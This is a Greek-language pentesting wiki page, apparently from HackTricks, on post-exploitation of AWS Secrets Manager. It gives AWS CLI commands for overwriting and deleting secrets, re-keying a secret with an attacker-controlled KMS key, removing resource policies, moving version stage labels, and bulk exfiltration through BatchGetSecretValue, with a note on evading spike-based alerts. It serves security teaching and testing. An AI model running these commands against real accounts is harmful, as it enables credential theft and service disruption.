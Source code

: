 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

Τα **secrets είναι ευαίσθητες πληροφορίες**, [έλεγξε τη σελίδα privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) για να μάθεις πώς να τα διαβάσεις.

### DoS Change Secret Value

Αλλάζοντας την τιμή ενός secret μπορείς να **προκαλέσεις DoS σε όλα τα συστήματα που εξαρτώνται από αυτή την τιμή.**

> [!WARNING]
> Σημείωση ότι οι προηγούμενες τιμές αποθηκεύονται επίσης, οπότε είναι εύκολο να επαναφέρεις την προηγούμενη τιμή.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Εάν ο attacker έχει την άδεια secretsmanager:UpdateSecret, μπορεί να ρυθμίσει το secret ώστε να χρησιμοποιεί ένα KMS key που ανήκει στον attacker. Αυτό το key αρχικά ρυθμίζεται με τρόπο που οποιοσδήποτε μπορεί να έχει πρόσβαση και να το χρησιμοποιεί, επομένως η ενημέρωση του secret με το νέο key είναι δυνατή. Εάν το key δεν ήταν προσβάσιμο, το secret δεν θα μπορούσε να ενημερωθεί.

Αφού αλλάξει το key για το secret, ο attacker τροποποιεί τη διαμόρφωση του key του ώστε μόνο αυτός να μπορεί να έχει πρόσβαση. Με αυτόν τον τρόπο, στις επόμενες εκδόσεις του secret θα κρυπτογραφείται με το νέο key, και επειδή δεν υπάρχει πρόσβαση σε αυτό, η δυνατότητα ανάκτησης του secret θα χαθεί.

Είναι σημαντικό να σημειωθεί ότι αυτή η μη προσβασιμότητα θα συμβεί μόνο σε μεταγενέστερες εκδόσεις, αφού αλλάξει το περιεχόμενο του secret, δεδομένου ότι η τρέχουσα έκδοση εξακολουθεί να είναι κρυπτογραφημένη με το αρχικό KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Διαγραφή Secret

Ο ελάχιστος αριθμός ημερών για να διαγραφεί ένα secret είναι 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Είναι δυνατόν να επαναφερθεί ένα secret, κάτι που επιτρέπει την αποκατάσταση των secret που έχουν προγραμματιστεί για διαγραφή, καθώς η ελάχιστη περίοδος διαγραφής για secrets είναι 7 ημέρες και η μέγιστη 30 ημέρες. Σε συνδυασμό με την άδεια secretsmanager:GetSecretValue, αυτό καθιστά δυνατή την ανάκτηση του περιεχομένου τους.

Για να ανακτήσετε ένα secret που βρίσκεται στη διαδικασία διαγραφής, μπορείτε να χρησιμοποιήσετε την ακόλουθη εντολή:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Αυτή η ενέργεια επιτρέπει τη διαγραφή του resource policy που ελέγχει ποιος μπορεί να έχει πρόσβαση σε ένα secret. Αυτό μπορεί να οδηγήσει σε DoS εάν το resource policy είχε ρυθμιστεί ώστε να επιτρέπει πρόσβαση σε ένα συγκεκριμένο σύνολο χρηστών.

Για να διαγράψετε το resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Οι καταστάσεις ενός secret χρησιμοποιούνται για τη διαχείριση των εκδόσεων ενός secret. Το AWSCURRENT σηματοδοτεί την ενεργή έκδοση που χρησιμοποιούν οι εφαρμογές, το AWSPREVIOUS κρατάει την προηγούμενη έκδοση ώστε να μπορείτε να επαναφέρετε αν χρειαστεί, και το AWSPENDING χρησιμοποιείται στη διαδικασία rotation για να προετοιμάσει και να επαληθεύσει μια νέα έκδοση πριν την καταστήσει τρέχουσα.

Οι εφαρμογές πάντα διαβάζουν την έκδοση με το AWSCURRENT. Αν κάποιος μετακινήσει αυτή την ετικέτα σε λάθος έκδοση, οι εφαρμογές θα χρησιμοποιήσουν άκυρα διαπιστευτήρια και ενδέχεται να αποτύχουν.

Το AWSPREVIOUS δεν χρησιμοποιείται αυτόματα. Ωστόσο, αν το AWSCURRENT αφαιρεθεί ή επαναεκχωρηθεί λανθασμένα, μπορεί να φαίνεται ότι όλα εξακολουθούν να τρέχουν με την προηγούμενη έκδοση.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Εκμεταλλευτείτε το Secrets Manager BatchGetSecretValue API για να ανακτήσετε έως 20 secrets σε ένα αίτημα. Αυτό μπορεί να μειώσει δραματικά τον όγκο κλήσεων API σε σύγκριση με την επανάληψη του GetSecretValue για κάθε secret. Εάν χρησιμοποιούνται φίλτρα (tags/name), απαιτείται επίσης η άδεια ListSecrets. Το CloudTrail εξακολουθεί να καταγράφει ένα γεγονός GetSecretValue για κάθε secret που ανακτάται στο batch.

Απαιτούμενες άδειες
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Σημειώστε ότι η άδεια `secretsmanager:BatchGetSecretValue` από μόνη της δεν αρκεί για να ανακτήσετε secrets — χρειάζεστε επίσης `secretsmanager:GetSecretValue` για κάθε secret που θέλετε να ανακτήσετε.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Εξαγωγή μέσω φίλτρων (tag key/value ή πρόθεμα ονόματος)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Αντιμετώπιση μερικών αποτυχιών
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Επιπτώσεις
- Γρήγορο “smash-and-grab” πολλών secrets με λιγότερες κλήσεις API, ενδεχομένως παρακάμπτοντας ειδοποιήσεις που είναι ρυθμισμένες για αιχμές των GetSecretValue.
- Τα CloudTrail logs εξακολουθούν να περιλαμβάνουν ένα γεγονός GetSecretValue ανά secret που ανακτήθηκε από το batch.
{{#include ../../../../banners/hacktricks-training.md}}
